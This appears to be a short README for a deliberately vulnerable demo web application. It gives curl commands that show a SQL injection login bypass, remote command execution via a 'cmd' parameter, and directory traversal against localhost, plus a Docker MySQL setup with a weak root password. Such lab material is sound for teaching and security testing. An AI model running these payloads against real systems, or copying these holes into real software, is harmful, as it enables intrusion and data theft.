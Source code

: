 Start mysql:
docker run --rm -p 3306:3306 --name mysql -e MYSQL_ROOT_PASSWORD=mysql  -d mysql:latest

DB Init:
curl -X POST -d  "user=root&pwd=mysql&host=127.0.0.1&port=3306" http://localhost:3000/dbinit

Sql injection demo: 
//password='12346" OR ""="'
curl -X POST -d "username=admin&password=12346%22+OR+%22%22%3D+%22" http://localhost:3000/login

Remote code execution:
curl -X POST -d "cmd=pwd" http://localhost:3000/exec

Directory traversal demo
curl -X GET http://localhost:3000/image/../demo/demo.go
